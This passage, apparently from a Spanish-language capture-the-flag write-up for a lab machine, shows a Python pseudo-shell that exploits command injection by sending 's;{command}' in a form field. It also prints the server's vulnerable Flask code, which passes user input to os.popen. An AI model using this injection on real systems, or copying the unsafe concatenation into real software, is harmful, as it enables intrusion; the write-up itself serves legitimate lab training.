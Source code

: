 Para tener una Shell y que sea algo más cómodo que mandar con `CURL` las peticiones
hice un `script` que simulaba una Shell:

```
#!/usr/bin/python

import requests
from bs4 import BeautifulSoup
from cmd import Cmd

class Terminal (Cmd):
    prompt = "fortune> "

def default (self, args):
    resp = requests.post('http://10.10.10.127/select', data={"db": f"s;{args} 2>&1"})
    soup = BeautifulSoup(resp.text, 'html.parser')
    print(soup.find("pre").text.strip())

term = Terminal()
term.cmdloop()
```
Para obtener el resultado filtra por la etiqueta `pre` y extrae el texto de ahí
dentro, dejando así el output del comando. Cuando hacemos `ls` vemos un `script` en
`Python` llamado `fortuned.py`, vamos a ver qué es y cómo funciona:

```
from flask import Flask, request, render_template, abort
import os

app = Flask(__name__)

@app.route('/select', methods=['POST'])
def fortuned ():
    cmd = '/usr/games/fortune '
    dbs = ['fortunes', 'fortunes2', 'recipes', 'startrek', 'zippy']
    selection = request.form['db']
    shell_cmd = cmd + selection
    result = os.popen(shell_cmd).read() # BlackCage: Nuestra inyección.
    return render_template('display.html', output=result)
```
Como vemos primero define una variable `cmd`, la cual incluye una ruta hacia un
programa que como parámetro toma la selección del usuario para después ejecutarlo y
leer directamente de la consola el resultado. La inyección ocurre ya que estamos
concatenando un comando con `|`, de tal manera que todo combinado quedaría así: `/usr/games/fortune <selección> | <comando>`

## Autorización

Una vez que ya tengamos lo del paso anterior tenemos que inspeccionar la máquina para
ver si podemos conseguir más cosas para escalar privilegios, así que yo comenzé por
mirar en el directorio `/home/`, viendo así que hay tres usuarios: `bob`, `charlie` y
`nfsuser`.
